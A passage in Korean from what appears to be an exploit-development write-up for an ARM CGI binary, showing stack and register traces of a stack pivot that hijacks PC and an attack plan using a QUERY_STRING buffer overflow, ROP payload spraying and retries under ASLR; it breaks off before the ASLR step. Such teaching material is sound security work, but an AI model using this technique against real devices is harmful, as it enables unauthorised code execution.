 ```
* sp(0xbfff8f10)에서 r11, pc를 pop 했습니다.

### Stage 4 ######################################################
+-Code-------------+---------------------------------------------+
|       0x00010ca0 | sub  sp, r11, #4                            |
| pc  > 0x00010ca4 | pop  {r11, pc}                              |
+------------------+---------------------------------------------+
+-Stack------------+----------0----------4----------8----------c-+
|       0xbfff8f00 | 0x00000000 0x00000000 0x00000000 0x00000000 |
|       0xbfff8f10 | 0xbfff8f24 0x00010ca0 0x00000000 0x00000000 |
|       0xbfff8f20 | 0x41414141 0x41414141 0x41414141 0x41414141 |
+------------------+---------------------------------------------+
+-Register-------------------------------------------------------+
| sp    0xbfff8f20 *                                             |
| r11   0xbfff8f24                                               |
+----------------------------------------------------------------+
* r11에서 4를 뺀 값을 sp에 넣었습니다.
  sp의 값이 우리가 원하는 값(0xbfff8f20)으로 변조되었습니다.
  
### Stage 5 ######################################################
+-Code-------------+---------------------------------------------+
| pc  > 0x41414141 | ........................................... |
+------------------+---------------------------------------------+
+-Stack------------+----------0----------4----------8----------c-+
|       0xbfff8f00 | 0x00000000 0x00000000 0x00000000 0x00000000 |
|       0xbfff8f10 | 0xbfff8f24 0x00010ca0 0x00000000 0x00000000 |
|       0xbfff8f20 | 0x41414141 0x41414141 0x41414141 0x41414141 |
+------------------+---------------------------------------------+
+-Register-------------------------------------------------------+
| sp    0xbfff8f28                                               |
| r11   0x41414141                                               |
+----------------------------------------------------------------+
* pc와 r11이 변조되었습니다.
```

위와 같은 방법으로 연속적인 함수의 호출 또는 인자의 구성을 위해 `SP`를 변조할 수 있습니다.



### 공격코드 작성

위 두가지 방법을 이용하면 다음과 같은 흐름으로 공격을 수행합니다.

1. `QUERY_STRING`을 전달함으로 BOF를 발생시키고, 스택에 ROP Payload를 spray합니다.
2. `SP`를 Stack spray된 영역으로 변조합니다.
3. ROP Payload를 수행합니다.
   1. ASLR이 비활성화 되어있으면, ROP Payload를 즉각적으로 수행 할 수 있습니다.
   2. ASLR이 활성화 되어있으면, `SP`가 잘못된 영역을 역참조 할 수 있습니다. 이럴경우, 1을 다시 수행합니다.



#### Case: ASLR 비활성화

다음과 같이 ASLR을 비활성화 할 수 있습니다.
